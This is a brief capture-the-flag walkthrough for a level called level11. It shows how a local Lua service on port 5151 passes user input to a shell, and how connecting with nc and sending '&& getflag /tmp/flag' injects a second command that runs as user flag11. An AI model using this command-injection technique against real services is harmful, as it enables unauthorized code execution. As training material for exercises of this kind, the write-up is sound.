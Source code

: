 ## Step 1
> ls -l ~

There was one file ``level11.lua``.

## Step 2
> cat level11.lua

We saw in it that it was running on ``127.0.0.1:5151`` and was waiting for a password, before hashing it with ``echo [something] | sha1sum``.

## Step 3
> nc 127.0.0.1 5151

> && getflag /tmp/flag

> cat /tmp/flag

The flag was displayed in the file, because it was executed in bash with user ``flag11``, as we were able to see at [Step 1](#step-1).

## Bonus
The "good password" waiting for the hash is ``-n NotSoEasy``.
